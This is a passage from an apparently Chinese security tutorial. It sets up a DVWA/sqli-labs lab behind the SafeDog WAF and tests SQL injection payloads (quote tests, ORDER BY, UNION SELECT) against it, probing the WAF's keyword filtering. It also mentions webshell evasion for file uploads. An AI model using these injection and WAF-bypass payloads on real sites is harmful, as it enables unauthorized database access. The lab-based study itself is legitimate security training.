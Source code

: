 在文件上传中，可以尝试的方式：

```php
文件名的变化
webshell的免杀
```

### 3.2 环境的搭建

```php
安装windows server
安装phpstudy
配置phpstudy+dvwa
安装安全狗windows版
如果提示找不到Apache服务，cmd进入到Apache路径中，httpd.exe -k install -n apache2
校验防护是否存在
关闭黑名单功能(IP黑白名单)。
关闭CC攻击防护（资源防护）
```

Sql-Lab 安全狗拦截绕过
===============

首先打开sqllab的第一关  
这里%27代表单引号

```php
http://10.0.22.140/SQLL/Less-1/?id=1%27--+
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-c3aca744555f9677f410e65b1e3c6a7edbe54570.png)  
使用`order by`指令

```php
http://10.0.22.140/SQLL/Less-1/?id=1' order by 4--+
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-1aaecb0ec585cb92e348eb9eede30c3ae89e4b3a.png)

这里可以测出来一共存在三列，然后使用联合查询来试试

```php
http://10.0.22.140/SQLL/Less-1/?id=1' union select 1,2,3--+
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-f157299647502e27175385d30a4091a1c5fa92e2.png)  
如果只有union呢？试试

```php
http://10.0.22.140/SQLL/Less-1/?id=1' union  1,2,3--+
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-bb83de6aa987c02428888872dc30aba70de6986f.png)

select呢

```php
http://10.0.22.140/SQLL/Less-1/?id=1' union select 1,2,3--+
```
